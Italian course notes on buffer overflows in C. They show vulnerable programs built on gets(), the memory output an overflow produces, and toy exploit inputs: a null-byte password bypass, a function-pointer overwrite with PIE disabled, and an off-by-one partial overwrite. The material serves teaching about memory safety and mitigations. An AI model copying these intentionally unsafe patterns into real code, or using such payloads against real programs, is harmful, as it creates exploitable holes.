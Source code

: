 Questa vulnerabilità è causata da una programmazione **unsafe**, programmare in modo "sicuro" infatti non è garantito da molti linguaggi (e.g. C), per questo sono importanti i meccanismi di **mitigazione**.

>[!info] **Buffer overflow**
>A condition at an interface under which more input can be placed into a buffer or data holding area than the capacity allocated, overwriting other information. Attackers exploit such a condition to crash a system or to insert specially crafted code that allows them to gain control of the system.
>SOURCE: [SP 800-28; CNSSI-4009](https://nvlpubs.nist.gov/nistpubs/ir/2013/NIST.IR.7298r2.pdf)

Panoramica di C:

| Vantaggi                      | Svantaggi                                                               |
| ----------------------------- | ----------------------------------------------------------------------- |
| Accesso completo alle risorse | Accesso ai dati in modo non sicuro                                      |
| Elevata performance           | È responsabilità del programmatore implementare meccanismi di sicurezza |
|                               | Ci sono molte funzioni unsafe nella stl                                 |

```c
#include <string.h>
#include <stdio.h>
char buffer1[8]="one"; // buffer of size 8 initialized with "one"
int value = 5;
char buffer2[8]="two"; // buffer of size 8 initialized with "two"
int main(int argc, char *argv[]) {
	printf("[BEFORE] buffer1 @ %1$p = %1$s\n", buffer1);
	printf("[BEFORE] value @ %1$p = 0x%2$08x\n",&value, value);
	printf("[BEFORE] buffer2 @ %1$p = %1$s\n", buffer2);
	
	printf("Please enter your input: ");
	gets(buffer1); // reads input into buffer1, whatever length!
	printf("\n");
	printf("[AFTER] buffer1 @ %1$p = %1$s\n", buffer1);
	printf("[AFTER] value @ %1$p = 0x%2$08x\n",&value, value);
	printf("[AFTER] buffer2 @ %1$p = %1$s\n", buffer2);
}
```

Notare come $7$ caratteri stiano dentro al buffer, con $9$ straripa completamente scrivendo il valore `0x39` che è il carattere ASCII per `9`, mentre da $17$ caratteri in poi va a scrivere dentro al secondo buffer:
```bash
[BEFORE] buffer1 @ 0x6b90f0 = one
[BEFORE] value   @ 0x6b90f8 = 0x00000005
[BEFORE] buffer2 @ 0x6b9100 = two
Please enter your input: 1234567
[AFTER]  buffer1 @ 0x6b90f0 = 1234567
[AFTER]  value   @ 0x6b90f8 = 0x00000005
[AFTER]  buffer2 @ 0x6b9100 = two

[BEFORE] buffer1 @ 0x6b90f0 = one
[BEFORE] value   @ 0x6b90f8 = 0x00000005
[BEFORE] buffer2 @ 0x6b9100 = two
Please enter your input:
[AFTER]  buffer1 @ 0x6b90f0 = 123456789
[AFTER]  value   @ 0x6b90f8 = 0x00000039
[AFTER]  buffer2 @ 0x6b9100 = two

[BEFORE] buffer1 @ 0x6b90f0 = one
[BEFORE] value   @ 0x6b90f8 = 0x00000005
[BEFORE] buffer2 @ 0x6b9100 = two
Please enter your input: 12345678999999999
[AFTER]  buffer1 @ 0x6b90f0 = 12345678999999999
[AFTER]  value   @ 0x6b90f8 = 0x39393939
[AFTER]  buffer2 @ 0x6b9100 = 9
```

Se mettessimo una stringa ancora più lunga prima o poi otterremmo un `segmentation fault`, la colpa di questo _buffer overflow_ è dovuta alla funzione `gets()` la quale è legacy ed unsafe.

Prendendo in considerazione questo codice:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
char buffer1[8]="......."; // buffer of size 8 for input
char buffer2[8]="sEgr3t0"; // buffer of size 8 initialized with the password
int main(int argc, char *argv[]) {
	printf("Insert password: ");
	gets(buffer1); // reads the user password, no check on length!
	if (strcmp(buffer1, buffer2) == 0) {
		printf("Authenticated!\n");
		exit(EXIT_SUCCESS);
	} else {
		printf("Wrong password!\n");
		exit(EXIT_FAILURE);
	}
}
```

È possibile bypassare il controllo della password inserendo `0x00` tra due stringhe di `buffer2.length()` caratteri:
```bash
echo -e "AAAAAAA\x00AAAAAAA" | ./overflow-pwd
```

### Position Independent Executionable (PIE)
Immaginando di avere il seguente codice:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
typedef struct element {
	char data[16];
	void (*f)(char *);
} element_t;

void secret_function() {
	printf("Secret function!\n");
}

void show_data(char *s) {
	printf("Data = %s\n",s);
}

int main(int argc, char *argv[]) {
	element_t e;
	e.f = show_data;
	printf("Insert data: ");
	gets(e.data); // reads data, unsafe!
	e.f(e.data);
}
```

E compilandolo con:
```bash
gcc overflow-struct.c -o overflow-struct --no-pie --static
```
andiamo a disabilitare **PIE**, il quale viene usato per posizionare in modo casuale il programma in memoria , in questo modo possiamo trovare facilmente l'indirizzo in memoria della funzione `e.f()`.

Otteniamo l'indirizzo di `secret_function`:
```bash
gdb -q overflow-struct
(gdb) disas secret_function
Dump of assembler code for function secret_function:
   0x0000000000400b4d <+0>:     push   rbp
   ...
```

procediamo riempiendo il buffer `data[]`, e poi inseriamo l'indirizzo della funzione che vogliamo eseguire:
```bash
# little endian
echo -e "AAAAAAAAAAAAAAAA\x4d\x0b\x40\x00\x00\x00\x00\x00"
Insert data: Secret function!
```

### Off-by-one
La locazione casuale del programma (PIE) riduce l'esposizione a questo tipo di attacchi, tuttavia questa vulnerabilità può ancora essere abusata, in quanto la randomizzazione "mantiene" gli [[Mapping#Mapping|offset]].

Modificando il main come segue:
```c
int main(int argc, char *argv[]) {
	element_t e;
	e.f = show_data;
	char c;
	printf("Insert data: ");
	memset(e.data,0,sizeof(e.data));
	
	for (int i=0; i<=sizeof(e.data) && (c=getc(stdin))!= EOF && c != '\n'; i++) {
		e.data[i] = c;
	}
	gets(e.data); // reads data, unsafe!
	e.f(e.data);
	
	printf("show_data = %p, secret_function = %p\n",show_data,secret_function);
}
```

```bash
echo -e "AAAAAAAAAAAAAAAA\xca" | ./overflow-struct-offbyone
Insert data: Secret function!
show_data = 0x560975daa7dd, secret_function = 0x560975daa7ca
```
è solo necessario sovrascrivere l'ultimo byte con `0xca`, il quale è il primo byte in memoria a causa del **little endian**, in pratica stiamo solo eseguendo uno shift del puntatore alla funzione che vogliamo.